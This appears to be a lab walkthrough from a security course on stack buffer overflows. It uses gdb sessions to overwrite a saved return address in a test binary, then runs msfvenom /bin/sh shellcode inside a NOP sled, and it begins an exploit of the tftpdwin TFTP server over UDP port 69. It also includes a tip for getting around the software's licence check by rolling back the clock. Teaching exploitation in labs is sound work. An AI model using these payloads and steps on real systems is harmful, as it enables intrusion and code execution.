



(gdb) run $(./pattern_create.rb -l 600)
Starting program: /home/seccon/labs/overflows/vuln1 $(./pattern_create.rb -l 600)
You entered: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9
Program received signal SIGSEGV, Segmentation fault.
0x35724134 in ?? ()
Task 4
Find the value in the register eip, then pass the value as an argument to 'pattern_offset.rb'.
(gdb) info registers eip
eip 0x35724134 0x35724134
(gdb) p $eip
$1 = (void (*)()) 0x35724134
(gdb) shell ./pattern_offset.rb 35724134
[*] Exact match at offset 524
You should now have the exact length (in bytes) from the start of mybuffer (somewhere between EBP and ESP) and the saved return address (Saved EIP).

Task 5
Create a pattern of the length found in task 4 concatenated with the hex 0xCAFEF00D, and pass it as an argument to vuln1. This will place the hex 0xCAFEF00D into the saved return address. Verify by running vuln1, having it segfault, and printing the value of the register eip.
(gdb) run $(python -c 'print "z"*524+"\x0d\xf0\xfe\xca"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/seccon/labs/overflows/vuln1 $(python -c 'print "z"*524+"\x0d\xf0\xfe\xca"')
You entered: zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz...
Program received signal SIGSEGV, Segmentation fault.
0xcafef00d in ?? ()
(gdb) p $eip
$2 = (void (*)()) 0xcafef00d
Bonus Task:
Discover at what instruction the value of 0xCAFEF00D is loaded into the register EIP.
# 0x7a is the hex value for "z" (the value filling mybuffer)
# You should search for the values you put at the beginning of your buffer
(gdb) find /w1 $esp, +600, (int) 0x7a7a7a7a7a
0xbffffdb3
1 pattern found.
Task 7
Replace 0xCAFEF00D from task 5 with the address found in task 6. This will cause the eip register to point to our buffer. Execution will now occur on the stack. When running, expect a SIGILL as a good sign, but a segfault could also occur.
(gdb) run $(python -c 'print "z"*524+"\xb3\xfd\xff\xbf"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/seccon/labs/07-overflows/vuln1 $(python -c 'print "z"*524+"\xb3\xfd\xff\xbf"')
You entered: zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz...
Program received signal SIGILL, Illegal instruction.
0xbfffffc1 in ?? ()
Task 8
Now that we have execution, we are ready for shellcode. Construct a NOP sled (a sequence of 0x90) followed by a single 0xCC. 0xCC will stand in as our shell code for now. If you encounter a SIGTRAP then you were successful.
++ Click here for Hint
Hint

Remember the length found in task 4 and the address found in task 6.
(gdb) run $(python -c 'print "\x90"*523+"\xcc"+"\xb3\xfd\xff\xbf"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/seccon/labs/07-overflows/vuln1 $(python -c 'print "\x90"*523+"\xcc"+"\xb3\xfd\xff\xbf"')
You entered:...
Program received signal SIGTRAP, Trace/breakpoint trap.
0xbfffffbf in ?? ()
Task 9
Generate shellcode that will execute/bin/sh using msfvenom.
$ msfvenom -p linux/x86/exec CMD=/bin/sh -e x86/shikata_ga_nai -b '\x00\x0a\x0d' -f python
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 70 (iteration=0)
buf = ""
buf += "\xbe\xcb\x7b\x4c\x0d\xdb\xdb\xd9\x74\x24\xf4\x5f\x2b"
buf += "\xc9\xb1\x0b\x83\xef\xfc\x31\x77\x11\x03\x77\x11\xe2"
buf += "\x3e\x11\x47\x55\x59\xb4\x31\x0d\x74\x5a\x37\x2a\xee"
buf += "\xb3\x34\xdd\xee\xa3\x95\x7f\x87\x5d\x63\x9c\x05\x4a"
buf += "\x7b\x63\xa9\x8a\x53\x01\xc0\xe4\x84\xb6\x7a\xf9\x8d"
buf += "\x6b\xf3\x18\xfc\x0c"
# Cleaning it up
$ msfvenom -p linux/x86/exec CMD=/bin/sh -e x86/shikata_ga_nai -b '\x00\x0a\x0d' -f python | grep 'buf +=' | sed -e 's/^.*"\(.*\)".*$/\1/' | tr -d '\n'
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 70 (iteration=0)
\xbd\xf1\x0a\xff\xdd\xda\xcc\xd9\x74\x24\xf4\x5e\x31\xc9\xb1\x0b\x31\x6e\x15\x83\xc6\x04\x03\x6e\x11\xe2\x04\x60\xf4\x85\x7f\x27\x6c\x5e\x52\xab\xf9\x79\xc4\x04\x89\xed\x14\x33\x42\x8c\x7d\xad\x15\xb3\x2f\xd9\x2e\x34\xcf\x19\x00\x56\xa6\x77\x71\xe5\x50\x88\xda\x5a\x29\x69\x29\xdc
(gdb) run "$(python -c 'print "\x90"*(524-70)+"\xdb\xdc\xba\x0b\x45\x71\x2f\xd9\x74\x24\xf4\x5d\x2b\xc9" +"\xb1\x0b\x83\xc5\x04\x31\x55\x16\x03\x55\x16\xe2\xfe\x2f" +"\x7a\x77\x99\xe2\x1a\xef\xb4\x61\x6a\x08\xae\x4a\x1f\xbf" +"\x2e\xfd\xf0\x5d\x47\x93\x87\x41\xc5\x83\x90\x85\xe9\x53" +"\x8e\xe7\x80\x3d\xff\x94\x3a\xc2\xa8\x09\x33\x23\x9b\x2e"+"\xb3\xfd\xff\xbf"')"
Starting program: /home/seccon/overflows/vuln1 "$(python -c 'print "\x90"*(524-70)+"\xdb\xdc\xba\x0b\x45\x71\x2f\xd9\x74\x24\xf4\x5d\x2b\xc9" +"\xb1\x0b\x83\xc5\x04\x31\x55\x16\x03\x55\x16\xe2\xfe\x2f" +"\x7a\x77\x99\xe2\x1a\xef\xb4\x61\x6a\x08\xae\x4a\x1f\xbf" +"\x2e\xfd\xf0\x5d\x47\x93\x87\x41\xc5\x83\x90\x85\xe9\x53" +"\x8e\xe7\x80\x3d\xff\x94\x3a\xc2\xa8\x09\x33\x23\x9b\x2e"+"\xb3\xfd\xff\xbf"')"
You entered:...
process 5878 is executing new program: /bin/dash
$
Bonus
gdb is wonderful, but wouldn't it be nice to get the shellcode running outside the debugger?
++ Click here for Hint
Hint
Values on the stack can affect the location of mybuffer. Environment variables and even the length of our program invocation need to be taken into consideration. We started gdb without environment variables and a fully qualified path /home/seccon/labs/overflows/vuln1; so, it would be a good idea to do the same outside of gdb. Even if the stack addresses are off by a little bit, the prepended NOP sled will give us some wiggle room. You may want to increase the return address if the program is segfaulting.
Login to windows. To get around a license key for the service, set the clock back to 1 September 2014. Run the tftpdwin installer on the desktop. Don't run it on startup, and don't run it after it's installed.
~/labs/07-overflows$ export PATTERN=$(./pattern_create.rb 500)
seccon@seccon-kali2:~/labs/07-overflows$ python
Python 2.7.3 (default, Mar 14 2014, 11:57:14)
[GCC 4.7.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> pattern = os.environ['PATTERN']
>>> dgram="\x00\x02"+pattern+"\x00netascii\x00"
Task 5
Place the message in a UDP datagram addressed to the windows machine on port 69. This should crash tftpdwin due to an invalid read.
++ Click here to Cheat with Python
A strcpy is invoked @ 0x004063A4 which copies your payload to the stack.
Another strcpy is invoked @ 0x004063B2 which copies your payload to 0x00AA1F62.
A strcat @ 0x00406473 finally writes our buffer back to the stack and overwrites the saved EIP.
The distance between the start of our buffer and the return address is 284 bytes.
Task 7
Read the cheat from the bonus above, and find a sequence (Ctrl-S) of commands matching: POP R32, RET. Have execution jump to this address.
++ Click here for Hint
Hint

Task 8
Generate some shell code with msfpayload and msfencode. Something simple like executing calc. Remember it has to fit in our buffer.
++ Click here to Cheat